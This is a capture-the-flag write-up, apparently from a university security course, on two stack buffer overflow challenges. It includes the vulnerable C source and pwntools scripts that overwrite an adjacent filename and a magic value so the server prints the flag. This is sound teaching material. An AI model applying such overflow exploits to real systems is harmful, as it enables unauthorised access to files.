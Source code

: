 # CTF Buffer Overflow Report

## Preparation

Before starting the CTF challenge, we took steps to set up our environment by installing two essential programs that would be used in both attacks:

- **pwntools**: A Python library for interacting with binary programs.

- **checksec**: A tool used to gather information about the security measures in place for a binary program.

## Challenge 1

### Information Gathering

Our initial phase involved collecting information about the target program. We ran the `checksec` command to assess the security attributes of the program and obtained the following findings:

![checksec](img/checksec.png)

By analysing the results we deduce that:

- The file architecture is **x86 (32-bit)**.
- There is no stack canary protecting the return address.
- The stack has execution permissions.
- Binary positions are not randomized.
- The stack has read, write, and execute permissions.

After that we examined the contents of the following files:

- **exploit-example.py**: A template for creating an attack script. This script connects to the server **ctf-fsi.fe.up.pt:4000** and takes a string as input for the main program.

  ```c
  #!/usr/bin/python3
  from pwn import *
  
  DEBUG = False
  
  if DEBUG:
      r = process('./program')
  else:
      r = remote('ctf-fsi.fe.up.pt', 4003)
  
  r.recvuntil(b":")
  r.sendline(b"Tentar nao custa")
  r.interactive()
  ```

  

- **main.c**: The C code of the program to be exploited. It initializes two character arrays: one with a size of 8, named **meme_file**, which contains the path of a file to be opened, and the other with a size of 32, named **buffer**, which is used for input. The program reads 40 bytes from the input and inserts them into the **buffer**. Finally, the program opens the file specified in **meme_file** and prints its contents.

  ````c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      char meme_file[8] = "mem.txt\0";
      char buffer[32];
  
      printf("Try to unlock the flag.\n");
      printf("Show me what you got:");
      fflush(stdout);
      scanf("%40s", &buffer);
  
      printf("Echo %s\n", buffer);
  
      printf("I like what you got!\n");
      
      FILE *fd = fopen(meme_file,"r");
      
      while(1){
          if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
              printf("%s", buffer);
          } else {
              break;
          }
      }
  
  
      fflush(stdout);
      
      return 0;
  }
  ````

- **mem.txt**: A file with some text that the program opens by default.

- **program**: The compiled program from **main.c**.

### Attack

After analyzing the program's content, we identified a buffer overflow vulnerability due to the insufficiently allocated memory in the **buffer** array. To exploit this vulnerability, we modified the **exploit-example.py** script to insert 32 'a' characters followed by 'flag.txt' into the **buffer**, allowing us to override the meme_file contents with the string "flag.txt". Because of that, the program read the file "flag.txt" instead of reading the file "mem.txt". 

```c
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

Executing this script allowed us to successfully run the program and obtain the flag.

![exploit1](img/exploit1.png)

## Challenge 2

### Information Gathering

In the second challenge, we anticipated a more complex task to retrieve the flag. Similar to the first challenge, we executed the `checksec` command, which yielded identical results regarding the program's security measures.

![checksec](img/checksec.png)

We proceeded to examine the contents of the following files:

- **main.c**: This file, similar to the previous challenge, contains the C code of the program to be exploited. It initialises three character arrays: one with a size of 9, named **meme_file**, which holds the file path; another with a size of 4, named **val**, containing the characters "\xef\xbe\xad\xde"; and the third with a size of 32, named **buffer**, used for input. The program reads 45 bytes from the input and inserts them into the **buffer**. If the contents of **val** match **0xfefc2324**, the program opens the file specified in **meme_file** and prints its contents.

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      char meme_file[9] = "mem.txt\0\0";
      char val[4] = "\xef\xbe\xad\xde";
      char buffer[32];
  
      printf("Try to unlock the flag.\n");
      printf("Show me what you got:");
      fflush(stdout);
      scanf("%45s", &buffer);
      if(*(int*)val == 0xfefc2324) {
          printf("I like what you got!\n");
          
          FILE *fd = fopen(meme_file,"r");
          
          while(1){
              if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                  printf("%s", buffer);
              } else {
                  break;
              }
          }
      } else {
          printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
      }
  
  ```

  

- **mem.txt**: A file containing text that the program opens by default.

- **program**: The compiled program from **main.c**.

### Attack

Upon collecting and analysing the information, we chose a similar approach to the first challenge: exploiting the program's memory allocation and management to perform a buffer overflow attack. However, in this case, we also had to consider the contents of the **val** variable.

As in the previous challenge, we created an **exploit-example.py** file to assist with the attack. This script connects to the server **ctf-fsi.fe.up.pt:4000** and takes a string as input for the main program.

To achieve our objective, we leveraged the 45 bytes being inserted into the 32-byte **buffer** array to overwrite both the **val** and **meme_file** arrays with the values **0xfefc2324** and the path to the file we wanted to open, in this case, "flag.txt". To accomplish this, we modified the **exploit-example.py** script to insert 32 'a' characters followed by "\x24\x23\xfc\xfe" and, at the end, "flag.txt".

We had to insert the value "\x24\x23\xfc\xfe" and not "\xfe\xfc\x23\x24" because we are working in a little-endian system. 

```c
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)
        
list = [0x24,0x23,0xfc,0xfe]
val = bytearray(list)
        
r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+val+b"flag.txt")
r.interactive()
```

Executing this script allowed us to successfully run the program and obtain the flag. 

![exploit2](img/exploit2.png)
